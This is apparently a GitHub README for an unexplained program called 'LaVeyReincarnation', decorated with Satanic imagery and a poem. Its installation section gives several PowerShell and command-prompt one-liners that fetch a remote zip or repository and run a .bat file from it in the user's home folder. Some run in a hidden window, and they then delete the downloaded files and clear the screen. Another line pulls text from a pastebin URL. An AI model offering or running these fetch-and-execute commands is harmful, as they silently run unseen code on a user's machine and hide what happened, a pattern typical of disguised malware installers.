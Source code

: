 


<h1>LaVeyReincarnation</h1>

<img align="right" width="320" height="320" src="https://upload.wikimedia.org/wikipedia/commons/0/09/Baphosimb.svg">
<p align="center">
Climbing deep into your Wurlitzer<br>
gathering sins to the nest<br>
lost conscience of the apprizer<br>
boiling hatred in a pest
</p>

```
powershell -c(wget -useb -ur pastebin.com/raw/pqamKfgi).Content
```

<br>

```diff
- 🔴Proceede at own risk❗
```




<h3>Installation</h3>

<blockquote>
	
```
powershell -w hidden -c "& {$w=$home;cd $w;$z=\"$w\r.zip\";Invoke-WebRequest 'https://github.com/3lv/r/archive/r.zip' -o $z;Expand-Archive $z . -f;.\r-r\r.bat;Remove-Item $z,r-r -r -fo;}"&exit
```


```
powershell -c "& {$w=$home;cd $w;$z=\"$w\r.zip\";Invoke-WebRequest 'https://github.com/3lv/r/archive/r.zip' -o $z;Expand-Archive $z . -f;.\r-r\r.bat;Remove-Item $z,r-r -r -fo;cls}"
```
	
<details>
  <summary>PowerShell from r</summary>
  
  * Run:
    ```powershell
    $w=$home;cd $w;$z="$w\r.zip";Invoke-WebRequest 'https://github.com/3lv/r/archive/r.zip' -o $z;Expand-Archive $z . -f;.\r-r\r.bat;Remove-Item $z,r-r -r -fo;cls
    ```
</details>


<details>
  <summary>PowerShell</summary>
  
  * Run:
    ```powershell
    $w=$home
    $u="https://github.com/3lv/a/archive/a.zip"
    $z="$w\a.zip"
    $d="$w\a\"
    (New-Object System.Net.WebClient).DownloadFile($u,$z)
    Expand-Archive $z $d -F
    cd $d\..
    .\a\a-a\a.bat
    Remove-Item $z,$d -R -Fo
    cls
    ```
</details>

<details>
  <summary>PowerShell 1 line</summary>
  
  * Run:
    ```powershell
    $w=$home;$u="https://github.com/3lv/a/archive/a.zip";$z="$w\a.zip";$d="$w\a\";(New-Object System.Net.WebClient).DownloadFile($u,$z);Expand-Archive $z $d -F;cd $d\..;.\a\a-a\a.bat;Remove-Item $z,$d -R -Fo;cls
    ```
</details>

<details>
  <summary>Command Prompt 1 line</summary>
  
  * Run:
    ```powershell
    powershell -c "& {$w=$home;$u='https://github.com/3lv/a/archive/a.zip';$z=\"$w\a.zip\";$d=\"$w\a\\\";(New-Object System.Net.WebClient).DownloadFile($u,$z);Expand-Archive $z $d -F;cd $d\..;.\a\a-a\a.bat;Remove-Item $z,$d -R -Fo;cls}"
    ```
</details>

</blockquote>

<blockquote>

<details>
  <summary>git (requires git)</summary>
  
  * Run:
    ```powershell
    git clone https://github.com/3lv/a -q
    .\a\a.bat
    rmdir /s /q ".\a\"
    ```
</details>

</blockquote>

<p>
All installations methods have the same result, more or less.
  <ol>
    <li>
      <details>
      <summary>Download the files from github<summary>
      </details>
    </li>
    <li>
	  <details>
	  <summary>Run the .bat file which *installs* the program</summary>
	  </details>
	</li>
    <li>
	  <details>
	  <summary>Removing remaining file.</summary>
	  </details>
	</li>
  </ol>
</p>

<br><br>

<h3>Possible errors</h3>

> If directory "a" already exists, commands may result in a hidden error
> 
> Use the following to remove "a":
>
> <code>rmdir /s /q ".\a\"</code>
